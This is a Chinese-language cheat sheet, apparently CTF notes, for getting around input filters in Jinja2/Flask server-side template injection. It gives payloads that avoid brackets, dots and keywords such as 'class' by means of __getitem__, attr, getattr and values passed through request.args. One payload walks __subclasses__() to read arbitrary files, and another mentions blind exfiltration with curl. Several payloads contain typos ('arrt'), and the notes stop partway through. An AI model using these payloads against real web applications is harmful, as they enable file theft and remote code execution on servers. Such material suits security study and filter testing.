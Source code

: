 1. 中括号绕过
我们的中括号表示我们在某一个**列表**当中取值。例如我们的 `l[0]`。我们可以采用我们的内置的函数来进行，也就是我们的 `__getitem__` 函数来进行绕过。

```
l[0]=l.__getitem__(0);
```

2. 过滤了点
在 python 中，可用以下表示法可用于访问对象的属性

```
{{().__class__}}
{{()["__class__"]}}
{{()|attr("__class__")}}
{{getattr('',"__class__")}}，这样做就相当于实现了''.__class__
```


3. 关键字过滤：
在我们的某些过滤中，可能会过滤掉我们的 `class` 或者我们的其他关键字，这个时候我们可以通过 request 方法来完成我们的过滤，例如：
```
().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() &path=
```

```
request|attr((request.args.usc*2,request.args.class,request.args.usc*2|join))&class=class&&usc=_
```

```
request|arrt(request.args.getlist(request.args.l)|join)     &l=a&a=_&a=_&a=class&a=_&a=_
```

**过滤了 join**, 使用格式化字符串
```
request|arrt(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a)   &f=%s%sclass%s%s&a=_
```

4. 过滤模板标签：
```
{% if 无回显的payload，需要用curl带出 %}{% endif%}
```

5. 禁用了 `ls,cat` 等方法：
我们这一题可以通过我们的 `python` 中的 getattribute 方法来实现。
```
l.__getattribute__('__cla''ss__')->l.class
```

或者我们可以采用我们的 hex 编码（**常见**）
